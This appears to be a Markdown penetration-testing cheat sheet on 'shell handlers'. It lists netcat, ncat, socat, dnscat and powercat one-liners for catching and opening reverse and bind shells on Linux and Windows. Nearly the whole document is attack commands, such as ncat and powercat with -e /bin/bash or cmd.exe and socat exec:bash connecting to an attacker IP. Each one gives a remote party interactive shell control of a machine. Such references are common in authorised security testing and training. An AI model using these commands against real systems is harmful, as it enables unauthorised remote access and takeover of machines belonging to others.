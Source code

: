 # Shell Handler

## 01 - General

### 1.1 - Netcat

#### 1.1.1 - Reverse shell

- Any listening ports ranging between **1-1023** must be ran as root

`$ nc -lnvp 1024`

`$ sudo nc -lnvp 80`

#### 1.1.2 - Bind shell

`$ nc -lnvp <target_IP> <PORT>`

### 1.2 - Ncat

##### 1.2.1 - TCP Method

`$ ncat <IP> <PORT> -e /bin/bash`

##### 1.2.2 - UDP Method

`$ ncat -u <IP> <PORT> -e /bin/bash`

### 1.3 - Socat

#### 1.3.1 - Reverse Shell

- Shell handler (attacker)

`$ socat tcp-listen:<PORT>,reuseaddr,fork file:`tty`,raw,echo=0`

- Connect to attacker

`$ socat tcp:<attacker_IP>:<PORT> exec:bash,pty,stderr,setsid,sigint,sane`

#### 1.3.2 - Bind Shell

- Shell handler (target)

```
$ socat tcp-listen:<PORT>,reuseaddr,fork exec:bash,pty,stderr,setsid,sigint,sane

$ socat file:`tty`,raw,echo=0 tcp:<target_IP>:<PORT>
```

### 1.4 - DNScat

TODO: Provide a usage example with dnscat

`$ ./dnscat2.rb`

## 02 - Windows

### 2.1 - Powercat

#### 2.1.1 - Reverse shell

##### 2.1.1.1 - TCP Method

`PS C:\> powercat -c <IP> -p <PORT> -e cmd.exe`

##### 2.1.1.2 - UDP Method

`PS C:\> powercat -u -c <IP> -p <PORT> -e cmd.exe`

#### 2.1.2 - Bind shell

##### 2.1.2.1 - TCP Method

`PS C:\> powercat -l -p <PORT> -e cmd.exe`

##### 2.1.2.2 - UDP Method

`PS C:\> powercat -u -l -p <PORT> -e cmd.exe`

## References

- [DNScat](https://github.com/iagox86/dnscat2)

- [Powercat](https://github.com/besimorhino/powercat)